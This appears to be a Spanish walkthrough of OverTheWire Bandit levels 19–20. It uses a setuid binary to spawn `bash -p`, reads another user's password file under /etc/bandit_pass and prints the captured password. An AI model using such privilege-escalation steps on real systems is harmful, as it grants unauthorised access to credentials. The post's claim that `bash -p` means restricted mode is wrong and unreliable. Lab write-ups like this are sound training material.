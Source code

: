 La contraseña para este nivel se puede encontrar en el lugar habitual (/etc/bandit_pass), después de haber utilizado el binario setuid.

Iniciamos:

```shell
ssh bandit19@bandit.labs.overthewire.org -p 2220
```

### Resolviendo Nivel 19

Muy bien ahora listamos y para saber más le aplicamos un `ls -l` para conocer los permisos, y vemos que el archivo tiene habilitado el permiso [SUID](https://mechitast.github.io/blog/SUID)

```shell
bandit19@bandit:~$ ls
bandit20-do
bandit19@bandit:~$ ls -l
total 16
-rwsr-x--- 1 bandit20 bandit19 14876 Apr 23 18:04 bandit20-do
```

- Cuando un archivo tiene el **bit SUID** establecido, se ejecuta con los privilegios del propietario del archivo en lugar de los privilegios del usuario que lo ejecuta.

```shell
bandit19@bandit:~$ ./bandit20-do whoami
bandit20
bandit19@bandit:~$ 
```

- Ahora si a eso le aplicamos este comando `bash -p` para iniciar una nueva instancia de la shell Bash en modo restringido. Y por último mostramos la contraseña para el siguiente nivel:

```shell
bandit19@bandit:~$ ./bandit20-do bash -p
bash-5.1$ whoami
bandit20
bash-5.1$ cat /etc/bandit_pass/bandit20
VxCazJaVykI6W36BkBU0mJTCM8rR95XT
```

---

# Bandit 20 al 21

Hay un binario setuid en el directorio de inicio que hace lo siguiente: 

- Establece una conexión con localhost en el puerto que especifique como argumento de la línea de comandos. 
- Luego lee una línea de texto de la conexión y la compara con la contraseña del nivel anterior (bandit20). 
- Si la contraseña es correcta, transmitirá la contraseña para el siguiente nivel (bandit21).


### Resolviendo Nivel 20
